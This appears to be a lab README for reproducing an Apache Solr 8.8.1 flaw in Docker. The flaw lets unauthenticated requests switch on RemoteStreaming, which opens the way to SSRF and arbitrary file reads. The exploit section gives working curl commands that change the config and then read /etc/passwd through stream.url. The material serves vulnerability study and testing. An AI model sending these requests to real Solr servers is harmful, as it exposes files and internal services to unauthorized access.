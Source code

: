 # Apache Solr RemoteStreaming Arbitrary File Reading and SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open source search server. When Apache Solr does not enable authentication, an attacker can directly craft a request to enable a specific configuration, and eventually cause SSRF or arbitrary file reading.

References:

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## Vulnerability environment

Execute following commands to start a Apache Solr 8.8.1:

```
docker compose up -d
```

After the environment is started, browser `http://your-ip:8983` to view the Apache Solr.

## Exploit

First, visit `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json` to extract the database name:

![](1.png)

Send the following request, modify the configuration of the database `demo` to enable `RemoteStreaming`:

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

Then read arbitrary file through `stream.url`:

```
curl -i -s -k'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)

